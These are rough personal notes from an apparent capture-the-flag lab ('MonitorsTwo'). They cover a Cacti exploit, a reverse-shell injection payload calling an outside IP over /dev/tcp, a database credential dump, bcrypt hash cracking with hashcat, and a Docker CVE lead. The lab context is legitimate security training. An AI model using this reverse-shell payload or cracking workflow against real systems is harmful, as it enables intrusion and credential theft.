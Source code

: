 Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 11:19 IST
Nmap scan report for 10.10.11.211
Host is up (0.60s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 79.39 seconds

cacti 1.2.22 cve
got the shell

![](20230709021800.png)

how od we get a proper shell

cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi


172.19.0.3      50bca5e748b0

exec "$@"

can we put aproxychain and reach there?

 sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.21/4444 0>&1'

bash -c bash -i >& /dev/tcp/10.10.16.21/4444 0>&1

running linpeas

 /etc/mysql/mariadb.cnf                                                     
[client-server]

/etc/pam.d/common-password                                                                                          
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/caching_sha2_password.so
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/mysql_clear_password.so
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/sha256_password.so
/usr/local/include/php/ext/standard/php_password.h
/usr/share/pam/common-password
/usr/share/pam/common-password.md5sums
/var/cache/debconf/passwords.dat
/var/lib/pam/password
/var/www/html/auth_changepassword.php

╔══════════╣ Searching passwords in config PHP files
#$rdatabase_password = 'cactiuser';                                                                                 
$database_password = 'root';

```
bash-5.1$ mysql --host=db --user==root --password=root cacti -e "show tables"
mysql --host=db --user==root --password=root cacti -e "show table"
ERROR 1045 (28000): Access denied for user '=root'@'172.19.0.3' (using password: YES)
```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"

but this works

bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change     show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_treespolicy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts     lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb               on      on      on      on      on      2       1       1       1       1       on      -1 -1       -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3  11       1       1       1               -1      -1      -1              0       0       0
4       marcus  z$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                      on      on      on      on      1       1       1       1       1       on      -1 -1               on      0       0       2135691668


using john.py

└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-9300H CPU @ 2.40GHz, 1430/2924 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70Jonsd...hFYK4C
Time.Started.....: Tue Jul 11 00:03:10 2023 (2 mins, 5 secs)
Time.Estimated...: Tue Jul 11 00:05:15 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       68 H/s (7.02ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8528/14344385 (0.06%)
Rejected.........: 0/8528 (0.00%)
Restore.Point....: 8512/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: mark123 -> funkymonkey
Hardware.Mon.#1..: Util: 94%

Started: Tue Jul 11 00:02:26 2023
Stopped: Tue Jul 11 00:05:17 2023

marcus@monitorstwo:~$ cat /var/mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team

so it is vulnnerable to exploit

![](20230710151329.png)
